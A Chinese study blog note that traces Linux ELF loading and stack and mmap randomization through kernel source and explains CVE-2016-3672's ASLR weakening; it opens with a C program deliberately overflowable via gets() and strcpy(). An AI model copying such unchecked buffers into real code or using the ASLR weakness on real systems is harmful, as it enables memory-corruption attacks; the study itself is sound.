







> 真的没想到，我会在2020.1.10的时候翻出2016.8.3写的这篇笔记，这篇文章照着当时乌云社区学习做的记录，是的当时乌云还没倒。只是隐约记得我晚上在宿舍搞这玩意搞到了一两点，但也还是一知半解的，不知道今天怎么了，就突发奇想在这个老记录的基础上再写点新的东西，也算是枯木逢春了。  -- 2020.1.10


故事的起源是自己写了一份代码
```
#include<string.h>
#include <stdio.h>
//主函数
int main()
{
char str[10];
int rete;
gets(str); //定义字符数组并赋值
char buffer[10]; //开辟 10 个字节的局部空间
strcpy(buffer,str);
 rete = strcmp(buffer, "key");
 if ( rete > 0 ){
  printf("key");
 }
return 0;
}
```
然后去尝试`缓冲区溢出`，当时刚刚接触这玩意的我最后给这段程序下的定义是：
```
能溢出，但是不会执行shell
```
现在翻过来`2020`年了，就又编译了一次这个程序，顺便记录一下当年没有记录的东西。
一个程序运行起来会是什么样子的呢？这个有相当一部分都是`elf`加载的知识。`elf`的装载就是一个在`头信息`的指引下各个区段装入进程用户空间等一系列操作的过程。
当程序经过编译后运行起来，进入到用户态内存之中，那首先要知道的就是从程序的视角来说，运行起来的程序与程序之间的内存空间相互独立，都认为自身占用的是整个`memory`，并且都从相同的`STACK_TOP`(排除`aslr`)加载且有相同的内存布局：





如果说整个系统中所有的执行程序加载起始位置都相同的话，会引起冲突吗？
显然不会，因为这些对于各程序本身来说完全相同的起始地址都是虚拟地址，是由物理地址经过页表转换映射出来的地址，在实际物理地址上其实是不同的。
> 由于`elf`是`静态链接`还是`动态链接`的区别，所以在最终加载的时候都存在一些区别


先前其实做过`elf`加载的相关研究，但是第一次接触非常多的认识不到位，只能照猫画虎，这次过了一段时间后再去补全一点知识，我没有看过`《程序员的自我修养》`一类的书籍，所以有非常多的地方描述不到位，但是鉴于大部分都是简单的记录自己的理解，自己能看懂就好了：）。


上面说了运行的程序之间内存空间相互独立，但是又都认为独占空间，那么这样的效果是怎么产生的呢？`elf`加载的核心函数是`static int load_elf_binary(struct linux_binprm *bprm)`，如果认为这个传参就是这个`elf`的话，就必然已然存在一些属性，因为一个程序进程化是存在过程的，内存也不能凭空变出来，重新回到最外层的`do_execve`的部分再去看，去探寻`bprm`的诞生到执行。
```
bprm = kzalloc(sizeof(*bprm), GFP_KERNEL);
retval = prepare_bprm_creds(bprm);
check_unsafe_exec(bprm);
retval = bprm_mm_init(bprm);
retval = prepare_binprm(bprm);
retval = copy_strings_kernel(1, &bprm->filename, bprm);
retval = copy_strings(bprm->envc, envp, bprm);
retval = copy_strings(bprm->argc, argv, bprm);
retval = exec_binprm(bprm);
```
第一条分配`struct linux_binprm`结构体的内核内存。
第二条则设置了`bprm->cred`其中包括了各种`gid`，`uid`信息等权限信息。
第三条则是安全检查，不过好像不会做什么操作，略过。
第四条看名字就很像是内存初始化的步骤，明说了就是建立内存管理的`mm`结构，也就值最终进程的`mm_struct`。
第五条是调用了`bprm_fill_uid`设置了即将运行的进程的`uid`和`gid`，再通过`kernel_read`将`file`内容读入`bprm`的缓存中。
第六，七，八都是关于内存数据拷贝的东西，后面再看
第九条就是执行了
> `task_struct->mm`是一个进程的`内存描述符`，代表了一个进程的虚拟地址空间信息。


跟入`bprm_mm_init`，上面的注释写的意思大概就是创建了一个临时的堆栈`vm_area_struct`用来填充`mm_struct`，这个原因是因为现有的数据不足以设置`stack_flag`，`权限`，`偏移`所以用临时值代替一下，等调用`setup_arg_pages()`时候会全都更新掉。
```
/*
 * Create a new mm_struct and populate it with a temporary stack
 * vm_area_struct. We don't have enough context at this point to set the stack
 * flags, permissions, and offset, so we use temporary values. We'll update
 * them later in setup_arg_pages().
 */
struct mm_struct *mm = NULL;
bprm->mm = mm = mm_alloc();
```
`mm_alloc()`初始化了一个`mm_struct`出来，并调用了`mm_aloc_pgd`分配了一个`pgd`给`mm->pgd`，这是进程的`页目录`指针，指向当前进程的页目录表，大小为`4kb`，且此刻的`mm->mmap = NULL`。
> 详情见`kernel/fork.c`的`mm_init()`


其中`mm->mmap`是一个链表结构的数据`vm_area_struct`，代表了一个进程虚拟地址区间，这点往后再接着说才能看明白。


第一个`vm_area_struct`是在`__bprm_mm_init`中定义，其中的`vm_end`是`STACK_TOP_MAX`，`vm_start`是`vm_end - PAGE_SIZE`
```
//64下STACK_TOP_MAX就是TASK_SIZE_MAX
#define TASK_SIZE_MAX ((1UL << 47) - PAGE_SIZE)
```
`vm_end = 0x00007ffffffff000`，`vm_start = 0x00007fffffffe000`，接着再调整当前的`top of mem`，即堆栈起始指针，这也是`bprm->exec`用到的地址。
其中`- PAGE_SIZE`是为用户空间的一个保护页预留的大小，内核文档中规定了`0x0000000000000000 -- 0x00007fffffffffff`为用户空间，而`0xffff800000000000`以上为内核空间，其中的空洞部分是留着扩展用。
这一段的思想就是把`stack`放在架构支持的最大`stack address`上，之后再慢慢调整到适合的位置，至于用`STACK_TOP_MAX`而不是`STACK_TOP`是因为它可能因为配置而改变：
```
 /*
  * Place the stack at the largest stack address the architecture
  * supports. Later, we'll move this to an appropriate place. We don't
  * use STACK_TOP because that can depend on attributes which aren't
  * configured yet.
  */
```
设置`栈起始虚拟地址`，这儿需要减去一个指针的大小。
```
bprm->p = vma->vm_end - sizeof(void *); //0x00007fffffffeff8
```
> 临时栈`vm_area_struct`大小是一个`page`，但只是硬编码定义好的虚拟地址区间，并没有映射到物理内存上。


在`copy_strings_kernel`上面写着一段注释，说明数据来源于`内核内存`，不过`cpoy`的方式还是调用的`copy_strings`，而能够从`内核内存`复制数据是因为`set_fs(KERNEL_DS)`修改了数据段，这是因为`copy_strings`会检测地址是否小于当前进程的`addr_limit`，而`内核空间`比`用户空间`更高，所以要修改：
```
/*
 * Like copy_strings, but get argv and its values from kernel memory.
 */
```
同样的在`copy_strings`上也有一段注释，写的很明白就是从旧程序的内存中复制数据到新程序的栈上：
```
/*
 * 'copy_strings()' copies argument/environment strings from the old
 * processes's memory to the new process's stack. The call to get_user_pages()
 * ensures the destination page is created and not swapped out.
 */
```
首先要知道源数据地址是这样定义的：
```
const char __user *str;
str = get_user_arg_ptr(argv, argc);
```
`__user`宏代表`str`指向的是一个`用户空间地址`，在`内核空间`没有意义，但是`kernel`的运行环境是`内核空间`，因此想要拷贝到这个数据，就需要使用`copy_from_user`这样的函数：
```
copy_from_user(kaddr+offset, str, bytes_to_copy)
```
`kaddr+offset`是要复制过去的`目标线性地址`，是一个`内核空间线性地址`，实际的数据拷贝用的都是两个`线性地址`所映射的`物理地址`，而个中转换方式还有可能影响直接摘抄：
```
在cpu进行访址的时候，内核空间和用户空间使用的都是线性地址，cpu在访址的过程中会自动完成从线性地址到物理地址的转换[用户态、内核态都得依靠进程页表完成转换]，而合理的线性地址意味着：该线性地址位于该进程task_struct->mm虚存空间的某一段vm_struct_mm中，而且建立线性地址到物理地址的映射，即线性地址对应内容在物理内存中。如果访存失败，有两种可能：该线性地址存在在进程虚存区间中，但是并未建立于物理内存的映射，有可能是交换出去，也有可能是刚申请到线性区间[内核是很会偷懒的]，要依靠缺页异常去建立申请物理空间并建立映射；第2种可能是线性地址空间根本没有在进程虚存区间中，这样就会出现常见的坏指针，就会引发常见的段错误[也有可能由于访问了无权访问的空间造成保护异常]。如果坏指针问题发生在用户态，最严重的就是杀死进程[最常见的就是在打dota时候出现的大红X，然后dota程序结束]，如果发生在内核态,整个系统可能崩溃。
```
然而在设计上来说，这个数据是要复制到一个`新进程`的指定`用户空间`的`线性地址`上，但是这个`新进程`此刻还全都在内核空间中，这样的问题就产生了，`str`的`线性地址`到`物理地址`的映射是完好的，然而目标地址其实是不完整的，那就需要做这些事情：

* 通过相对位移计算出新进程用户空间线性地址值`pos`

数据需要从临时栈的`stack_top`开始往下增加，但是要复制的数据是从低地址向高地址读的，所以通过数据长度来计算出相对偏移，然后在用栈顶去减去偏移量计算出最终数据的线性地址值：(0x00007fffffffeff8 - len(数据长度)) 


* 为`pos`的值表示的地址映射一个`物理内存`
因为内存的最小管理单元是`页`，因此并不能说只映射一个地址，而是需要映射整个内存页。所以先算一下`pos`的页内偏移量。然后找到`pos`在`bprm->mm`中的所在页线性地址(因为是内核使用，所以`__get_user_pages`函数中会自带一层映射关系，其中如果缺页的话将会创建匿名页映射，将`用户空间线性地址`映射到一个`内核空间线性地址`上)这个地址就是`kmapped_page = page`，然后用`kmap(kmapped_page)`临时映射出一个`物理页`的`线性地址`出来，然后计算`pos`的`页号kpos`，通过`flush_arg_page()`刷新一下`bprm->mm`的`页表信息`，记录新的映射关系，也就是页号中的物理地址。
```
    page = get_arg_page(bprm, pos, 1); 
    kmapped_page = page;
    kaddr = kmap(kmapped_page);  
    kpos = pos & PAGE_MASK;
    flush_arg_page(bprm, kpos, kmapped_page); 
```
大概的过程图就是这样：





复制完数据后，会下移`bprm->p`的地址，指向`栈顶`。
之后经过`search_binary_handler()`调用`load_elf_binary()`加载整个`bprm`，`elf`的整个文件信息被保存在`bprm->buf`中，如果是动态编译的程序，是需要有`动态链接库解释器`参与其中的，那意思就是说`bprm`中需要把解释器加载进来。
先手动给一些以后会用到的段地址赋值。
```
 elf_ppnt = elf_phdata;
 elf_bss = 0;  //bss段
 elf_brk = 0; 
 start_code = ~0UL;  //0xffffffffffffffff
 end_code = 0;
 start_data = 0;
 end_data = 0;
```
清空初始化`bprm`的地址空间后加载权限信息。
```
retval = flush_old_exec(bprm);
setup_new_exec(bprm);
install_exec_creds(bprm);
```
这儿要注意一下`flush_old_exec`其中有这样的操作：
```
retval = exec_mmap(bprm->mm);
   |_ tsk = current;
   |_ tsk->mm = mm;

bprm->mm = NULL;
current->personality &= ~bprm->per_clear;
```
> personality用來兼容linux的旧版或者BSD等其他版本。


这儿为止就把`current->mm`替换成之前的`bprm->mm`，也就是完全脱离了父进程，且所有的用户空间页面全都释放，即获取了一个全新的用户空间。


然后在`setup_new_exec`中调用`arch_pick_mmap_layout`确认内存的布局方式，也就是内存地址增长方向：
```
void arch_pick_mmap_layout(struct mm_struct *mm, struct rlimit *rlim_stack)
{
 if (mmap_is_legacy())
  mm->get_unmapped_area = arch_get_unmapped_area;
 else
  mm->get_unmapped_area = arch_get_unmapped_area_topdown;


 arch_pick_mmap_base(&mm->mmap_base, &mm->mmap_legacy_base,
   arch_rnd(mmap64_rnd_bits), task_size_64bit(0),
   rlim_stack);
```
其中关于`mmap_is_legacy`的实现：
```
static int mmap_is_legacy(void)
{
 if (current->personality & ADDR_COMPAT_LAYOUT)
  return 1;
 return sysctl_legacy_va_layout; //0
}
```
为`1`的话选用经典布局，为`0`的话则用新布局，现在默认都是新布局，所以内存是自上而下从`mmap_base`增长。
最后调用函数返回`mmap_base`的值
```
arch_pick_mmap_base(&mm->mmap_base, &mm->mmap_legacy_base,
   arch_rnd(mmap64_rnd_bits), task_size_64bit(0),
   rlim_stack);
    |_ mmap_base(random_factor, task_size, rlim_stack);
```
其中`random_factor`是`arch_rnd(mmap64_rnd_bits)`，`task_szie`是`task_size_64bit(0)`，`rlim_stack`是`&bprm->rlim_stack(8MB)`
这儿有些历史原因值得说一下，在`2.6`内核中，`mmap_base`的赋值并没有那么麻烦，它的实现如下：
```
/*
 * Top of mmap area (just below the process stack).
 *
 * Leave an at least ~128 MB hole.
 */
#define MIN_GAP (128*1024*1024)  //128MB
#define MAX_GAP (TASK_SIZE/6*5)
static inline unsigned long mmap_base(struct mm_struct *mm)
{
 unsigned long gap = current->signal->rlim[RLIMIT_STACK].rlim_cur;
 if (gap < MIN_GAP)
  gap = MIN_GAP;
 else if (gap > MAX_GAP)
  gap = MAX_GAP;
 return TASK_SIZE - (gap & PAGE_MASK);
}
```
这种情况下可以轻易的算出`mmap_base`的地址，因而在后来更新了代码为加了一个随机数进去，成了`页对齐(用户态最高可用地址 - 可能的栈空间大小 - 随机值)`：
```
+ return PAGE_ALIGN(TASK_SIZE - gap - mmap_rnd());
- return TASK_SIZE - (gap & PAGE_MASK);
```
> `#define PAGE_ALIGN(addr) ALIGN(addr, PAGE_SIZE)`，作用是给一个地址返回一个页对齐的地址，例如`PAGE_ALIGN(1) = 4096`，`PAGE_ALIGN(5000) = 8192`，这样操作的理由是因为`CPU`高速缓存是按照页缓存物理页面的，将地址对齐到页边界可以更好的利用处理器高速缓存资源。


看起来仿佛没有什么问题了，然而并不是，因为极端情况下，`mmap_rnd()`的值可能为`0`，这样的话`mmap_base`的取值就成了`TASK_SIZE - gap`，然而当`栈地址随机化`参与进来后，`栈`的起始地址产生变动，偏移范围是[0, stack_maxrandom_size()]，这就导致`栈增长`越界到了`mmap`的地址空间，因为发布了新的`patch`解决这个问题：
[x86: Increase MIN_GAP to include randomized stack](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/arch/x86/mm/mmap.c?id=80938332d8cf652f6b16e0788cf0ca136befe0b5)，即修改`MIN_GAP`为`栈地址随机化`预留空间。
至此为止整个`mmap`地址空间布局完成，顺便再提一个`CVE-2016-3672`的漏洞，这个漏洞的结果是导致`mmap_base`的随机化失效，怎么做到的呢？
翻回`4.5.2`以前的内核，函数`mmap_is_legacy`的判断条件如下：
```
static int mmap_is_legacy(void)
{
 if (current->personality & ADDR_COMPAT_LAYOUT)
  return 1;
 if (rlimit(RLIMIT_STACK) == RLIM_INFINITY)
  return 1;
 return sysctl_legacy_va_layout;
}
```
这比现在多一个关于`rlimit(RLIMIT_STACK)`的判断，即`线程栈大小`无限制的话，直接返回`1`，这个通过`ulimit -s unlimited`可以设置。那如果为`1`后，`mm->mmap_base = mm->mmap_legacy_base;`，而这个版本`mm->mmap_legacy_base`的来源如下：
```
unsigned long random_factor = 0UL;
if (current->flags & PF_RANDOMIZE)
  random_factor = arch_mmap_rnd();
mm->mmap_legacy_base = mmap_legacy_base(random_factor);
```
看起来还是有随机数是不是，然而跟入到`mmap_legacy_base`函数中去就能发现问题：
```
/*
 * Bottom-up (legacy) layout on X86_32 did not support randomization, X86_64
 * does, but not when emulating X86_32
 */
static unsigned long mmap_legacy_base(unsigned long rnd)
{
 if (mmap_is_ia32())
  return TASK_UNMAPPED_BASE;
 else
  return TASK_UNMAPPED_BASE + rnd;
}
```
针对`32位`的程序，根本没有用到随机数，那么`mmap_base = TASK_UNMAPPED_BASE`直接固定。
> 重新把话题转回来，继续回到主线剧情上


完成`mmap`的内存地址布局后，确定`user space process size`。
``` 
/* Set the new mm task size. We have to do that late because it may
  * depend on TIF_32BIT which is only updated in flush_thread() on
  * some architectures like powerpc
  */
 current->mm->task_size = TASK_SIZE;  //0x00007ffffffff000
```
> 这儿的定义当时我整了好久没明白，怎么好多文章都说道这个就是`用户空间`大小，但是`kernel`的文档划分的大小又和算出来的这个不对应，因此去看一下在源码中的定义


```
//这是TASK_SZIE，在64位下就是TASK_SIZE_MAX
#define TASK_SIZE (test_thread_flag(TIF_ADDR32) ? \
     IA32_PAGE_OFFSET : TASK_SIZE_MAX)
```
再去查`TASK_SIZE_MAX`，上面的注释这样写道：
```
/*
 * User space process size. This is the first address outside the user range.
#define TASK_SIZE_MAX ((1UL << __VIRTUAL_MASK_SHIFT) - PAGE_SIZE)
```
> 再次回归主线剧情，回到`load_elf_binary`中


处理完`mmap`的内存布局和确定了`TASK_SIZE`后，调用`setup_arg_pages`处理`栈`相关的事情。
```
retval = setup_arg_pages(bprm, randomize_stack_top(STACK_TOP),
     executable_stack);
```
`executable_stack`记录的是否可执行，说实话不咋影响略过，主要看第二个参数
```
randomize_stack_top(STACK_TOP)
```
这儿先记一些数值，`vm_start = 0x00007fffffffe000`，`vm_end == STACK_TOP == TASK_SIZE_MAX == TASK_SIZE == 0x00007ffffffff000`。
```
/*64位 
* STACK_RND_MASK = 0x3fffff
* PAGE_SHIFT = 12
*/
static unsigned long randomize_stack_top(unsigned long stack_top)
{
 unsigned long random_variable = 0;
 if (current->flags & PF_RANDOMIZE) {
  random_variable = get_random_long();
  random_variable &= STACK_RND_MASK; //random_variable确定为一个22bit的随机数
  random_variable <<= PAGE_SHIFT;
 }
#ifdef CONFIG_STACK_GROWSUP //这是需要额外配置的内核宏
 return PAGE_ALIGN(stack_top) + random_variable;
#else
 return PAGE_ALIGN(stack_top) - random_variable; //页边界对齐后 - random_variable
#endif
}
```
`random_variable`是一个`22bit`的随机数左移`12`位，那么范围是`0 -- 0x3fffff000`，那随机化后的`stack_top`的值在`0x00007ffc00000000 -- 0x00007ffffffff000`之间，接着进入到`setup_arg_pages()`中。
> 挑出关键逻辑来说。


```
stack_top = arch_align_stack(stack_top);
stack_top = PAGE_ALIGN(stack_top);
```
这两行操作会对`stack_top`减去随机`0 ～ 8192`，然后`& ~0xf`，再进行页对齐。
那至此位置，本来是一个固定值`0x00007ffffffff000`的`stack_top`经过的随机化过程有：
`页对齐` -- `- [0, 0x3fffff000]` -- `- [0, 8192]` -- `& ~0xf` -- `页对齐`
> 在某些体系结构中，首先要完成从逻辑地址到物理地址的转换，然后才能去cache中查找该物理地址是否已经在cache当中。这样，cache命中的代价较高。一种常用的技巧是，在L1中，逻辑地址索引-物理地址比较（virtually indexed, physically tagged）。思路是，利用逻辑地址与物理地址的页内偏移一样的特点，用页内偏移进行索引，页号通过TLB转换成物理页号进行tag比较。这样，可以不经转换，就先索引，从而加快速度。这样，如果两个逻辑地址的块页内偏移一样，它们索引的cache行也就一样，所以需要随机化页内偏移来减少L1的竞争。其缺点是，L1的set大小，不能超过页的大小。换言之：`L1的大小 <= 相联度 * 块的大小 * 页的大小`


```
 stack_shift = vma->vm_end - stack_top;
 bprm->p -= stack_shift;
 mm->arg_start = bprm->p; 
if (bprm->loader)
  bprm->loader -= stack_shift;
 bprm->exec -= stack_shift;
```
`vma->vm_end`的值是`STACK_TOP_MAX`，那`stack_shift`就是经过随机化以后的位移量，而`bprm->p`也减去相同位移量，然后设置`内存描述符`中的命令行参数的起始地址，相同的`bprm->exec`也要减去相同的位移量。
> 这儿产生的疑问有：
 为什么计算`stack_shift`是用`vma->vm_end`去减去现在的`stack_top`而不是直接用`STACK_TOP`去减？
个人猜测是因为`STACK_TOP`还是有可能因为自定义配置而改变掉，因为先前的各种配置都是依据`临时stack`设置的，所以要保持一致。


```
 /* Move stack pages down in memory. */
 if (stack_shift) {
  ret = shift_arg_pages(vma, stack_shift);
  if (ret)
   goto out_unlock;
 }
```
`shift_atg_pages`这个函数的作用可以从注释上就明显看出来：
```
/*
 * During bprm_mm_init(), we create a temporary stack at STACK_TOP_MAX. Once
 * the binfmt code determines where the new stack should reside, we shift it to
 * its final location. The process proceeds as follows:
 *
 * 1) Use shift to calculate the new vma endpoints.
 * 2) Extend vma to cover both the old and new ranges. This ensures the
 * arguments passed to subsequent functions are consistent.
 * 3) Move vma's page tables to the new range.
 * 4) Free up any cleared pgd range.
 * 5) Shrink the vma to cover only the new range.
 */
```
正如注释所说的，关于`vm_area`的修改并不是直接修改值就可以了，而是涉及到了内存区域的合并，同时涉及了内存管理树的修改，同时也要修改`页表`信息：
```
 /*
  * cover the whole range: [new_start, old_end)
  */
 if (vma_adjust(vma, new_start, old_end, vma->vm_pgoff, NULL))
  return -ENOMEM;
 /*
  * move the page tables downwards, on failure we rely on
  * process cleanup to remove whatever mess we made.
  */
 if (length != move_page_tables(vma, old_start,
           vma, new_start, length, false))
  return -ENOMEM;
vma_adjust(vma, new_start, new_end, vma->vm_pgoff, NULL);
```
设置完`真实栈地址`后就需要调整栈空间了，因为现在的`栈`大小只有一个`page`，扩展大小有一个默认值是`stack_expand = 131072UL; /* randomly 32*4k (or 2*64k) pages */`。
```
rlim_stack = bprm->rlim_stack.rlim_cur & PAGE_MASK;
 if (stack_size + stack_expand > rlim_stack)
  stack_base = vma->vm_end - rlim_stack;
 else
  stack_base = vma->vm_start - stack_expand;
 current->mm->start_stack = bprm->p;
 ret = expand_stack(vma, stack_base);
```
此刻的内存空间中其实已经设置好了`mmap`，只是为`stack`预留的空间，因此扩展的大小不能超过之间的空洞部分。
最后设置一下现在的`bprm->p`，然后扩展一下栈空间，就又返回到了`load_elf_binary`中，现在的`stack`一共有`34`个page。
数据在`bprm->file`中，就需要将其加载进内存里，循环找`PT_LOAD`的段，当第一次加载的时候` elf_brk == elf_bss = 0`，`vaddr = elf_ppnt->p_vaddr`，所以直接查看一下加载的数据类型是否为`ET_EXEC(可执行文件)`或者是`ET_DYN(共享文件)`，如果是后者的话，则需要从`ELF_ET_DYN_BASE`开始映射，不过其中也需要加上一个随机偏移。
```
* Therefore, programs are loaded offset from
    * ELF_ET_DYN_BASE and loaders are loaded into the
    * independently randomized mmap region (0 load_bias
    * without MAP_FIXED).
    */
   if (elf_interpreter) {

    load_bias = ELF_ET_DYN_BASE; //  2/3 TASK_SIZE
    if (current->flags & PF_RANDOMIZE)
     load_bias += arch_mmap_rnd();
    elf_flags |= elf_fixed;


   /*
    * Since load_bias is used for all subsequent loading
    * calculations, we must lower it by the first vaddr
    * so that the remaining calculations based on the
    * ELF vaddrs will be correctly offset. The result
    * is then page aligned.
    */
load_bias = ELF_PAGESTART(load_bias - vaddr); //地址按照页大小向前对齐，这是一个偏移量
```
看一下这个`vaddr`的来源是`vaddr = elf_ppnt->p_vaddr;`，这个地址是一个`__user`地址，不过第一个段肯定是`0`，通过如此方式确定了一段数据要加载到内存中的位置，接着通过`elf_map`进行加载，把数据从文件中映射到对应的`用户空间内存区间`中。
> 这儿可以很明显的看出来，第一段的加载地址实际上就是页对齐后的`load_bias`


```
static unsigned long elf_map(struct file *filep, unsigned long addr,
  struct elf_phdr *eppnt, int prot, int type,
  unsigned long total_size)
{
 unsigned long map_addr;
 unsigned long size = eppnt->p_filesz + ELF_PAGEOFFSET(eppnt->p_vaddr);
 unsigned long off = eppnt->p_offset - ELF_PAGEOFFSET(eppnt->p_vaddr);
 addr = ELF_PAGESTART(addr);
 size = ELF_PAGEALIGN(size);
```
传入的参数中，`filep`是文件指针，`addr`是要加载的`线性地址`，`size`是要加载的文件内容大小，`off`是在文件中的偏移量。其实这个函数本质是还是`do_map`，会分配`vm_area_struct`来表示一个虚拟区间。
且设置完第一个段的加载地址后，会设置`load_addr_set=1`，从而跳开很多流程。
<font color=red size=3>这边我其实本身是有疑问的，就是一开始的内存布局是从高地址到低地址的，但是这边关于段加载的顺序是从低地址到高地址的，那关于`vm_area_struct`其实是一个链表形式，它最后是怎么串联起来的呢？</font>


待到加载完所有的段后，调整各段的开始和结束位置：
```
 loc->elf_ex.e_entry += load_bias;
 elf_bss += load_bias;
 elf_brk += load_bias;
 start_code += load_bias;
 end_code += load_bias;
 start_data += load_bias;
 end_data += load_bias;
```
`elf_map`是按照`p_filesz`做的`map`，但是如果`p_memsz > p_filesz`这种情况，是说明有一部分的`bss`需要被`map`的，因此需要最后兜底一下：
```
retval = set_brk(elf_bss, elf_brk, bss_prot);
```
> `p_memsz`是内存中段所占的内存大小，而`p_files`是文件中段的字节大小，所以`p_files <= p_memsz`是必须的，其中多出来的部分很有可能是包含了一个`.bss`部分，在`set_brk`后会把和`bss`段中对应的那部分清零


设置程序入口，这也得看有没有`elf_interpreter`
```
if (elf_interpreter) {
    unsigned long interp_map_addr = 0;
    
    elf_entry = load_elf_interp(&loc->interp_elf_ex,
                interpreter,
                &interp_map_addr,
                load_bias, interp_elf_phdata);
    /* 入口地址是解释器映像的入口地址 */
    } else {
    /* 入口地址是目标程序的入口地址 */
    elf_entry = loc->elf_ex.e_entry;
    }
}
```
如果有解释器就是解释器入口，没有的话就是程序映像本身的入口。
调用`create_elf_tables`填写程序的各种参数环境变量栈顶地址等信息。
> 这个函数之中各种注释，写的很好很高效


```
 /*
  * In some cases (e.g. Hyper-Threading), we want to avoid L1
  * evictions by the processes running on the same package. One
  * thing we can do is to shuffle the initial stack for them.
  */
 p = arch_align_stack(p);
```
先前就分析过这个函数，结果现在又来了，就是针对栈顶地址做了一个`查找优化？`
```
 /*
  * If this architecture has a platform capability string, copy it
  * to userspace. In some cases (Sparc), this info is impossible
  * for userspace to get any other way, in others (i386) it is
  * merely difficult.
  */
 u_platform = NULL;
 if (k_platform) {
  size_t len = strlen(k_platform) + 1;


  u_platform = (elf_addr_t __user *)STACK_ALLOC(p, len);
  if (__copy_to_user(u_platform, k_platform, len))
   return -EFAULT;
 }
 /*
  * If this architecture has a "base" platform capability
  * string, copy it to userspace.
  */
 u_base_platform = NULL;
 if (k_base_platform) {
  size_t len = strlen(k_base_platform) + 1;


  u_base_platform = (elf_addr_t __user *)STACK_ALLOC(p, len);
  if (__copy_to_user(u_base_platform, k_base_platform, len))
   return -EFAULT;
 }
```
把`platform`字符串从`内核空间`复制到`用户空间`，比如`x86_64`
```
 /*
  * Generate 16 random bytes for userspace PRNG seeding.
  */
 get_random_bytes(k_rand_bytes, sizeof(k_rand_bytes));
 u_rand_bytes = (elf_addr_t __user *)
         STACK_ALLOC(p, sizeof(k_rand_bytes));
 if (__copy_to_user(u_rand_bytes, k_rand_bytes, sizeof(k_rand_bytes)))
  return -EFAULT;
```
生成一个随机的`16字节`内容用作是`用户空间`的`伪随机数发生器`的`种子`，复制到`stack`上。
```
 /* Create the ELF interpreter info */
 elf_info = (elf_addr_t *)current->mm->saved_auxv;
```
获取解释器信息，这个可以通过`/proc/self/auxv`可以看到内容，这是一些辅助向量。
将一些向量内容放到`stack`中：
```
 NEW_AUX_ENT(AT_HWCAP, ELF_HWCAP);
 NEW_AUX_ENT(AT_PAGESZ, ELF_EXEC_PAGESIZE);
 NEW_AUX_ENT(AT_CLKTCK, CLOCKS_PER_SEC);
 NEW_AUX_ENT(AT_PHDR, load_addr + exec->e_phoff);
 NEW_AUX_ENT(AT_PHENT, sizeof(struct elf_phdr));
 NEW_AUX_ENT(AT_PHNUM, exec->e_phnum);
 NEW_AUX_ENT(AT_BASE, interp_load_addr);
 NEW_AUX_ENT(AT_FLAGS, 0);
 NEW_AUX_ENT(AT_ENTRY, exec->e_entry);
 NEW_AUX_ENT(AT_UID, from_kuid_munged(cred->user_ns, cred->uid));
 NEW_AUX_ENT(AT_EUID, from_kuid_munged(cred->user_ns, cred->euid));
 NEW_AUX_ENT(AT_GID, from_kgid_munged(cred->user_ns, cred->gid));
 NEW_AUX_ENT(AT_EGID, from_kgid_munged(cred->user_ns, cred->egid));
 NEW_AUX_ENT(AT_SECURE, bprm->secureexec);
 NEW_AUX_ENT(AT_RANDOM, (elf_addr_t)(unsigned long)u_rand_bytes);
#ifdef ELF_HWCAP2
 NEW_AUX_ENT(AT_HWCAP2, ELF_HWCAP2);
#endif
 NEW_AUX_ENT(AT_EXECFN, bprm->exec);
 if (k_platform) {
  NEW_AUX_ENT(AT_PLATFORM,
       (elf_addr_t)(unsigned long)u_platform);
 }
 if (k_base_platform) {
  NEW_AUX_ENT(AT_BASE_PLATFORM,
       (elf_addr_t)(unsigned long)u_base_platform);
 }
 if (bprm->interp_flags & BINPRM_FLAGS_EXECFD) {
  NEW_AUX_ENT(AT_EXECFD, bprm->interp_data);
 }
```
这些`辅助向量`中包含了大量程序信息，如`AT_ENTRY`达标了程序`.text`段的入口，`AT_PLATFORM`代表了平台信息就是先前的`x86_64`。，这些信息是从低地址向高地址方向存入到elf_info中，最后结尾设置一个`AT_NULL = 0`来结束。
```
 /* AT_NULL is zero; clear the rest too */
 memset(&elf_info[ei_index], 0,
        sizeof current->mm->saved_auxv - ei_index * sizeof elf_info[0]);
```
先前已经把`argv`，`envp`等数据放到了栈里，然而那是数据本身，现在则需要在`stack`中放入指向这些数据的指针，最终的情况大概就是这样：





而`bprm->p`是`栈顶`地址，那现在在哪呢？
```
sp = STACK_ADD(p, ei_index);
items = (argc + 1) + (envc + 1) + 1;
bprm->p = STACK_ROUND(sp, items); //宏STACK_ROUND就是对齐，实际上就是`(((unsigned long) (sp - items)) &~ 15UL)`
```
> `&～15UL`的意思实际就相当于是将地址最后一位清零，意义就是向下十六字节对齐，


`el_index`可以理解成整个`elf_info`的长度，那最终的`bprm->p`是在这个位置：





等做完这些后，调整当前内存的各项数据：
```
 /* N.B. passed_fileno might not be initialized? */
 current->mm->end_code = end_code;
 current->mm->start_code = start_code;
 current->mm->start_data = start_data;
 current->mm->end_data = end_data;
 current->mm->start_stack = bprm->p;
``` 
然后设置随机的`brk`，数值在[start, start + range]，其中`range`的值是`0x02000000`：
```
current->mm->brk = current->mm->start_brk =
   arch_randomize_brk(current->mm);
```
启动：
```
finalize_exec(bprm);
start_thread(regs, elf_entry, bprm->p);
```
其中`*regs = current_pt_regs()`，也就是当前进程的`寄存器`地址。`elf_entry`是程序入口，也是后面寄存器中的当前指令地址。


# 认识一个没运行起来的程序
一个动态链接的程序的入口是`解释器`的入口，原因是需要先由`解释器`加载动态库，将其加载到内存形成一个链表，然后再把控制权交由程序本身。
以上面的代码来说，`gets`是一个库函数，程序运行到这一行时自然就需要通过call符号地址将其加载进内存，然而编译的阶段，这个符号的地址也是不明确的，那编译时候怎么定义这段呢？
```
 call gets@PLT
```
汇编一下
```
e8 00 00 00 00 callq 2f <main+0x2f>
```
简而言之就是留了个空位待填充，这个空位的名称叫做`gets@plt`，其实暂时叫什么我们并不关心，只需要知道程序在编译阶段上是没有填充库函数的地址的，因为编译器不知道库函数的地址。
接下来是链接过程，也就是经常说的静态链接和动态链接，如果是按照原始的设想，排除掉资源与性能的消耗第一个该被想到的自然就是在程序运行起来前就把要用到的函数准备好，这样在运行的时候就能直接通过`call`一个函数地址来进行函数调用，事实上`静态链接`正是这么做的。
看一下静态链接下关于该函数的调用情况：
```
e8 0c 7d 00 00 callq 4099d0 <_IO_gets>
```
